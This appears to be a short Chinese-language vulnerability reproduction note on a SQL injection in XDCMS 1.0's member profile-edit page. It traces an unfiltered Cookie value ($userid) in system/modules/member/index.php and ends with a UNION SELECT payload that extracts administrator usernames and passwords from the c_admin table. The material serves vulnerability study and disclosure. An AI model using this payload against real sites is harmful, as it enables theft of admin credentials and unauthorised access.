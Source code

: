 # XDCMS 1.0 sql注入漏洞（二）

### 一、漏洞简介

### 二、漏洞影响

XDCMS 1.0

### 三、复现过程

漏洞存在于用户资料修改页面，URL：`index.php?m=member&f=edit`

![](images/15896410551017.jpg)


漏洞文件位于system/modules/member/index.php，line:178

![](images/15896410633385.jpg)


$userid直接从Cookie中取出，并无任何过滤，导致注入

![](images/15896410693117.jpg)



```sql
select * from table_member where 'userid'=-4 Union seLect 1,2,username,4,5,6,7,8,9,10,11,12,password,14,15 fRom c_admin
```